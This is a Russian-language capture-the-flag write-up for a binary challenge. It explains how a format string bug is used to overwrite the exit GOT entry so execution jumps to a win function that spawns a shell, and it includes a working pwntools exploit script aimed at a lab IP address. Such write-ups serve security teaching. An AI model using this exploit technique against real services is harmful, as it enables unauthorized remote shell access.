

# Pwn 1
Для начала запустим программу.\
После ввода строки она вывела нашу же строку.

Запустим данную программу ещё раз и опробуем ввести ```%p``` и видим вот такой ответ:\


Это означает, что у нас уязвимость форматирования строки\
Небольшим научным перебором вычисляем смещение нашего буфера относительно указателя printf:\


Теперь же с помощью objdump мы видим нашу функцию main а так же неизвестную функцию win\
При более тщательной проверке функции win мы понимаем, что эта функция запускает терминал\
Запомним адрес этой функции 0x401156\

Заметим, что в main вместо обычного ret используется exit@plt, рассмотрим его:


В нём происходит переход к инструкции, которая хранится в 0x404018\
А учитывая уязвимость форматирования строки, которую мы можем использовать, чтобы переписать память на ту, что нам нужна, то запишем по адресу 0x404018 указатель на функцию win\
для этого мы можем использовать библиотеку pwntools, а именно pwnlib.fmtstr, которая соберёт нам строку для изменения памяти

для этого напишем такой код
```python
from pwnlib import fmtstr
from pwn import *

context.clear(arch='amd64')

def sendPayl(payload):
    print(payload)
    p = remote('192.168.12.13', 1923)
    p.sendline(payload)
    p.interactive()

buf = fmtstr.fmtstr_payload(6, {0x404018: 0x401156})

sendPayl(buf)
```

Архитектура сервера была вычислена также опытным путём (С другими архитектурами программа не работала)\

Где ```fmtstr.fmtstr_payload```, по ранее вычисленному смещению 6 и настройке записи 0x401156 в ячейку памяти с адресом 0x404018, создаёт строку, которая сразу отправляется на сервер\
И вот мы получили терминал на сервере:


Ну а теперь задача получить флаг становится тривиальной:

